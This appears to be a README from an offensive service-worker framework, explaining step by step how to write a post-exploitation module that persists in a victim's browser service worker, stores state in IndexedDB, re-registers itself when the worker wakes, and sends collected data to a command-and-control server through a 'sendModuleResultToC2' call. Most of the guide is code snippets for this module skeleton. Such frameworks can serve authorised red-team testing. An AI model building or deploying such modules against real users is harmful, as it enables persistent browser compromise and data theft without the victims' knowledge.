 # Create a custom post-exploitation module:
1. Create a JS with the MODULE_FILENAME.js under: `app/templates/modules`
2. If you plan to use IndexedDB to save current status or for whatever reasons, you will need to wake up the DB with:
```
WriteIDB("MODULE_NAME_init", 1);
```
3. You then need to register the module within the main SW on the victim. In this way, if the SW goes inactive and wakes up again, the module will resume execution:
```
registerModule('MODULE_NAME');
```
4. If you need to read previous saved data in IndexedDB, use the following:
```
var MODULE_NAME_data;
new Promise((res, rej) => {
  ReadIDB("MODULE_NAME", rej);
}).catch(function(p){
  if(p == undefined){
    MODULE_NAME_data = 1; // DEFAULT value
  }else{
    MODULE_NAME_data = p; // previous value
  }
});
```
5. After the initialisation, define your module logic:
```
function MODULE_NAME_Logic(){
	// do stuff....
}
MODULE_NAME_Logic();   // if you need to read data from IndexedDB first, call this in the IDB Promise catch section after querying the value(s)
```
6. You can use the module API `sendModuleResultToC2` to send data to the C2:
```
sendModuleResultToC2('MODULE_NAME', `data_from_module`);
```
7. At the end, you will need to deregister the module from the main SW. This will ensure that if the SW wakes up again, the module will not run a second time.
```
function MODULE_NAME_Logic(){
	// do stuff....
	deregisterModule('MODULE_NAME');
}
```
8. Note that all the global variable names need to be prefixed with your module name. Your module logic will end up being included as part of the main SW, so variables could conflict.
9. As a starting point for your module please refer to a module template under `app/templates/modules/template.js`.
10. Any results you send from the module will end up being visible on the dashboard under the agent that ran it.
11. If you want to run the module again after it has already been executed, you can delete the module against the agent on the dashboard and execute it again.
